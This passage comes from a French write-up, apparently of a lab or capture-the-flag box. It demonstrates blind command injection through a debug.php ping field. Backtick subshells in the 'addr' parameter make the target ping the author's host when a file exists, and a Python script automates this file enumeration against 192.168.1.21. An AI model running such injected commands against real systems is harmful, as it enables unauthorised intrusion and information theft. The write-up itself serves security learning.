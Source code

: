 ```plain
-c 1 `[ -f /etc/passwd ] && echo 192.168.1.3`
```

j'obtiens bien un ICMP echo reply en retour.  

En revanche avec  

```plain
-c 1 `[ -f /usr/bin/cat ] && echo 192.168.1.3`
```

nada ! Alors qu'avec  

```plain
-c 1 `[ -f /bin/bash ] && echo 192.168.1.3`
```

J'ai à nouveau un paquet ICMP. J'ai choisi de passer un moment à écrire un script me permettant d'énumérer les fichiers présents sur le système.  

Une première partie émet simplement les requêtes HTTP à destination de *debug.php* et injecte la commande ping :  

```python
import requests
import fcntl
import time

hdrs = {"Content-Type": "application/x-www-form-urlencoded"}
data = {'addr': 'command'}

with open("/tmp/files.txt") as fd:
    while True:
        word = fd.readline()
        if not word:
            break
        word = word.strip()
        if not word:
            continue

        cmd = "-c 1 `[ -f {0} ] && echo 192.168.1.3`".format(word)
        data['addr'] = cmd

        fdout = open("/tmp/current_path", "w")
        fcntl.flock(fdout.fileno(), fcntl.LOCK_EX)
        fdout.write(word)
        fcntl.flock(fdout.fileno(), fcntl.LOCK_UN)
        fdout.close()

        requests.post("http://192.168.1.21/debug.php", data=data, headers=hdrs)
        time.sleep(0.1)
```

Le path du fichier en cours de vérification est placé dans le fichier local */tmp/current\_path*. Un système de lock empèche le second script de se prendre les pieds avec celui-ci.  

